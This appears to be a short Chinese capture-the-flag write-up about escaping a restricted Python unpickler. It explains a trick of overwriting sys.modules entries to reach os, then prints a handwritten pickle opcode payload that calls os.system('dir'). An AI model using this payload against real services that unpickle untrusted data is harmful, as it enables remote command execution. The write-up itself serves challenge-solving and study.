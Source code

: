 

发现有个modules,但是loads那里有一个死亡raise

` sys._getframe` 可以返回带有exec的字典,但是好像没啥用

现在问题是不知道如何取出modules里的值

阅读文档发现

>This is a dictionary that maps module names to modules which have already been loaded. This can be manipulated to force reloading of modules and other tricks. However, replacing the dictionary will not necessarily work as expected and deleting essential items from the dictionary may cause Python to fail. 

可以修改modules来修改模块内容

```shell
>>> import sys
>>> sys.modules['sys']=sys.modules
>>> import sys
>>> dir(sys)
['__class__', '__contains__', '__delattr__', '__delitem__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getitem__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__iter__', '__le__', '__len__', '__lt__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__setitem__', '__sizeof__', '__str__', '__subclasshook__', 'clear', 'copy', 'fromkeys', 'get', 'items', 'keys', 'pop', 'popitem', 'setdefault', 'update', 'values']
```

然后sys就被替换成sys.modules了,就可以拿到os了

然后再对sys.modules['sys']再赋值为os

就可以import os了

(师傅们tql)

构造payload

```
csys
modules
S'sys'
csys
modules
p100
scsys
get
(S'os'
tRp101
g100
S'sys'
g101
scsys
system
(S'dir'
tR.
```
